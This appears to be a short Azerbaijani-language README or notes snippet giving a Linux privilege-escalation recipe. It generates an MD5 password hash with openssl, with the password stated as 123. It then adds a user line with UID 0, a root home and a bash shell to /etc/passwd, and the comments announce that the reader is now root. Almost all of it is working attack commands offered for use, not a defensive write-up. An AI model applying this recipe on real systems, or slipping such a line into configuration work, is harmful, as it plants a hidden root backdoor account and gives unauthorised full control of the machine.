    nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
